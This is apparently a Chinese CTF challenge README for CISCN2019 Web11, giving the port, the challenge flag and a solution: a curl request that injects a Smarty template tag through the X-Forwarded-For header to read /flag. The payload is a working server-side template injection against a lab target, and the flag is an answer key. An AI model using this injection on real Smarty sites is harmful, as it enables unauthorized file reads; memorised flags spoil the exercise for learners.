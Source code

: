 # 题目：CISCN2019 华东南赛区 Web11

### 题目描述：none

### 题目难度： 🌟🌟🌟🌟

### 维护：le31ei

### KEY: `flag{glzjin_wants_a_girl_firend}`

### 配置信息： 
1. 开放端口： `8083`

### 解题过程：

1. Smarty SSTI
2. payload

```shell
curl -X GET \
  http://127.0.0.1/xff/ \
  -H 'X-Forwarded-For: {include file='\''/flag'\''}'
```

